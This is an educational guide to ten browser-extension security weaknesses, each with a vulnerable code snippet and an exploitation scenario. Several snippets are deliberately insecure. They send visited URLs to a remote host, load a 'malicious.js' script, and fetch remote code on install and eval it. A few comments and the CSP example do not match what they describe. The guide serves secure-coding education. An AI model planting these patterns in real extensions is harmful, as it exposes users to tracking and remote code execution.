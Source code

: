 # Browser Extension Security Vulnerabilities
This document outlines common security vulnerabilities found in browser extensions and provides examples of how attackers can exploit these vulnerabilities.
## 1. Permissions Overreach
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "permissions": [
    "tabs",
    "http://*/*",
    "https://*/*",
    "storage"
  ],
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
An extension with broad permissions can access all tabs and browsing data. If the extension is compromised, an attacker can capture sensitive information from any website the user visits, including passwords and personal data.
## 2. Data Leakage
Vulnerable Code Example:
```javascript
chrome.tabs.onUpdated.addListener((tabId, changeInfo, tab) => {
  if (changeInfo.status === 'complete') {
    fetch('http://example.com/track', {
      method: 'POST',
      body: JSON.stringify({ url: tab.url })
    });
  }
});
```
This code can leak user URLs to a remote server.
Exploitation Scenario:
An extension sending the URLs of all visited pages to a remote server can inadvertently leak sensitive information, especially if users visit banking or personal sites.
## 3. Cross-Site Scripting (XSS)
Vulnerable Code Example:
```javascript
// User input retrieval with sanitization
let userInput = document.getElementById('input').value;
document.getElementById('output').innerHTML = userInput; // Consider sanitizing user input to prevent XSS
```
Exploitation Scenario:
User inputs can execute scripts in the page's context. An attacker could inject scripts that steal cookies, session tokens, or sensitive data.
## 4. Insecure Communication
Vulnerable Code Example:
```javascript
// User input retrieval with sanitization
fetch('http://example.com/api/data')
  .then(response => response.json()) // Ensure to handle the response
  .catch(error => console.error('Error fetching data:', error));
```
Exploitation Scenario:
Data sent over insecure HTTP can be intercepted by attackers on the same network, allowing them to capture sensitive information, such as tokens or personal data.
## 5. Code Injection
Vulnerable Code Example:
```javascript
let script = document.createElement('script');
script.src = 'http://example.com/malicious.js'; // Avoid loading scripts from untrusted sources
document.body.appendChild(script);
```
Exploitation Scenario:
If an attacker controls the script URL, they can inject malicious code into the page, leading to data theft or manipulation of the page’s functionality.
## 6. Malicious Updates
Vulnerable Code Example:
```javascript
chrome.runtime.onInstalled.addListener(() => {
  fetch('http://example.com/update-script.js')
    .then(response => response.text())
    .then(eval) // Using eval is potentially unsafe; consider alternatives
    .catch(error => console.error('Error loading script:', error));
});
```
Exploitation Scenario:
If the update mechanism is compromised, attackers can push malicious code to users without their knowledge, potentially gaining control over their browsers.
## 7. Third-Party Dependencies
Vulnerable Code Example:
```json
{
  "dependencies": {
    "vulnerable-lib": "1.0.0"
  }
}
```
Exploitation Scenario:
An extension relying on outdated third-party libraries may become vulnerable if those libraries have known security flaws that attackers can exploit.
## 8. Lack of Content Security Policy (CSP)
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "content_security_policy": "default-src 'self'"
}
```
Exploitation Scenario:
Without a strong CSP, attackers can inject untrusted content, increasing the risk of XSS and other attacks that manipulate the extension’s behavior.
## 9. Insecure Storage
Vulnerable Code Example:
```javascript
localStorage.setItem('token', 'my-secret-token'); // No encryption
```
Exploitation Scenario:
If an attacker gains access to the local storage, they can easily retrieve sensitive information, such as tokens or user credentials, leading to unauthorized access.
## 10. Insufficient Privacy Controls
Vulnerable Code Example:
```json
{
  "manifest_version": 2,
  "name": "My Extension",
  "description": "A cool extension with no privacy policy."
}
```
Exploitation Scenario:
Users may be unaware of how their data is being collected or used, leading to potential abuse of their information without consent or awareness.
